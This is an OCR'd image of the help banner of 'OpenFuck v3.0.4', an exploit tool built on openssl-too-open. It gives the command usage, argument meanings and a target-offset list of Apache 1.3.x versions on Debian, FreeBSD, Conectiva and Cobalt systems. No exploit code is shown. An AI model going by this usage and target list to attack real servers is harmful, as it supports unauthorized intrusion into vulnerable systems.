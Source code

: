 ```shell
*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./OpenFuck target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)

  Supported OffSet:
        0x00 - Caldera OpenLinux (apache-1.3.26)
        0x01 - Cobalt Sun 6.0 (apache-1.3.12)
        0x02 - Cobalt Sun 6.0 (apache-1.3.20)
        0x03 - Cobalt Sun x (apache-1.3.26)
        0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)
        0x05 - Conectiva 4 (apache-1.3.6)
        0x06 - Conectiva 4.1 (apache-1.3.9)
        0x07 - Conectiva 6 (apache-1.3.14)
        0x08 - Conectiva 7 (apache-1.3.12)
        0x09 - Conectiva 7 (apache-1.3.19)
        0x0a - Conectiva 7/8 (apache-1.3.26)
        0x0b - Conectiva 8 (apache-1.3.22)
        0x0c - Debian GNU Linux 2.2 Potato (apache_1.3.9-14.1)
        0x0d - Debian GNU Linux (apache_1.3.19-1)
        0x0e - Debian GNU Linux (apache_1.3.22-2)
        0x0f - Debian GNU Linux (apache-1.3.22-2.1)
        0x10 - Debian GNU Linux (apache-1.3.22-5)
        0x11 - Debian GNU Linux (apache_1.3.23-1)
        0x12 - Debian GNU Linux (apache_1.3.24-2.1)
        0x13 - Debian Linux GNU Linux 2 (apache_1.3.24-2.1)
        0x14 - Debian GNU Linux (apache_1.3.24-3)
        0x15 - Debian GNU Linux (apache-1.3.26-1)
        0x16 - Debian GNU Linux 3.0 Woody (apache-1.3.26-1)
        0x17 - Debian GNU Linux (apache-1.3.27)
        0x18 - FreeBSD (apache-1.3.9)
        0x19 - FreeBSD (apache-1.3.11)
        0x1a - FreeBSD (apache-1.3.12.1.40)
        0x1b - FreeBSD (apache-1.3.12.1.40)
        0x1c - FreeBSD (apache-1.3.12.1.40)
        0x1d - FreeBSD (apache-1.3.12.1.40_1)
        0x1e - FreeBSD (apache-1.3.12)
        0x1f - FreeBSD (apache-1.3.14)
        0x20 - FreeBSD (apache-1.3.14)
        0x21 - FreeBSD (apache-1.3.14)
        0x22 - FreeBSD (apache-1.3.14)
        0x23 - FreeBSD (apache-1.3.14)
        0x24 - FreeBSD (apache-1.3.17_1)
        0x25 - FreeBSD (apache-1.3.19)
        0x26 - FreeBSD (apache-1.3.19_1)
        0x27 - FreeBSD (apache-1.3.20)
        0x28 - FreeBSD (apache-1.3.20)
        0x29 - FreeBSD (apache-1.3.20+2.8.4)
        0x2a - FreeBSD (apache-1.3.20_1)
        0x2b - FreeBSD (apache-1.3.22)
        0x2c - FreeBSD (apache-1.3.22_7)
```